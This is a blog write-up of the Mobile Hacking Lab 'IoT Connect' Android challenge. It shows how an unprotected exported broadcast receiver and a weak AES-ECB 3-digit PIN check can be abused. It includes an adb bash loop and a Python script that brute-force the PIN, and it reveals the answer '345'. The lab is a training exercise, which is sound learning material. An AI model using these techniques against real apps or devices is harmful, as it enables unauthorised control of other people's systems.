 ```yaml
---
title:  "Mobile Hacking IoT Connect Writeup"
date:   2024-01-22T16:34:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for [IoT Connect](https://www.mobilehackinglab.com/course/lab-iot-connect) challenge from Mobile Hacking Lab. 

## Static Analysis
When we open the app in emulator, it opens a login page with login and signup buttons. We can create a new account with name and password. After logging in,  we can control some of ıot devices status(on/off) but we can not control AC, speakers and TV. Our account is a guest account and guests have limited permissions on devices.

Also there is a master switch button. This button can start all devices but guests can not use this button and its protected with 3 digit pin. Lets start our analyze with manifest file. 

![](/assets/images_mhl_iotconnect/manifest.png)

When we examine the manifest file, we see that a broadcast receiver named MasterReceiver defined without any permission protection. It means that everyone can trigger this receiver with proper arguments. Sample broadcast:  
```bash
adb shell am  broadcast -a MASTER_ON
```
I just searched name of this broadcast receiver and find the implementation in CommunicationManager class. Also you can search "registerReceiver" string to find broadcast receivers registers.

![](/assets/images_mhl_iotconnect/broadcastDefinition.png)
 
As seen in screenshot, we need to send broadcast with `"MASTER_ON"` action and a key as extra integer. This key sended to `check_key` function. If our key is correct, `turnOnAllDevices` will be called and we can turn on all devices without master account. Lets analyse check_key function. 

### check_key Function

![](/assets/images_mhl_iotconnect/check_key.png)

In this function, our key used to decrypt a base64 string and after decryption, expected result is `"master_on"` string. During key generation, our 3 digit key copied to another array. This array have 16 bytes and we have 13 null bytes after our key.
```
Algorith: AES ECB
Encrypted string: "OSnaALIWUkpOziVAMycaZQ=="
Key: our_key + 13*'\x00'

Expected result: "master_on"

```
With this information we can bruteforce key to find correct pin. For this attack you can use frida for following aes decryption processes and small bash script for sending broadcast with key. I used frida script from frida codeshare: https://codeshare.frida.re/@dzonerzy/aesinfo/

Bash script:
```bash
#!/bin/bash

for ((i=1; i<=999; i++)); do
    key=$(printf "%03d" $i) 
    echo $key
    adb shell am broadcast -a MASTER_ON --ei key $key
 
done

```
And PoC video:

[![](https://img.youtube.com/vi/GjnLXUowas4/0.jpg)](https://youtu.be/GjnLXUowas4)

Also I wroted small python script(with help of ch*tGPT). We can bruteforce key with this scirpt. Here is my code:
```py
from Crypto.Cipher import AES
import base64

encrypted_text = b'OSnaALIWUkpOziVAMycaZQ=='


def decrypt_with_key(encrypted_text, key):
    cipher = AES.new(key, AES.MODE_ECB)
    decrypted_text = cipher.decrypt(base64.b64decode(encrypted_text))
    return decrypted_text.decode('utf-8').strip()


def brute_force_decrypt(encrypted_text):
    for i in range(1000):
        key_prefix = str(i).zfill(3)
        key_suffix = b'\x00' * 13
        key = key_prefix.encode('utf-8') + key_suffix     
        #sh4d0wless
        try:
            decrypted_text_str = decrypt_with_key(encrypted_text, key)
            if "master_on" in decrypted_text_str:
                print("Key found: " + key.decode("utf-8") +" "+ decrypted_text_str)
                
        except UnicodeDecodeError:
            continue

brute_force_decrypt(encrypted_text)

```

```bash
sh4d0wless@paradise:~/Desktop$ python3 testoo.py 
Key found: 345 master_on
sh4d0wless@paradise:~/Desktop$ 

```
Our key is "345". We can turn on all devices with this key🎉🎉🎉:

[![](https://img.youtube.com/vi/qpdPvkfByc4/0.jpg)](https://youtu.be/qpdPvkfByc4)

Thanks for reading! See you in next writeups 👋🏻👋🏻
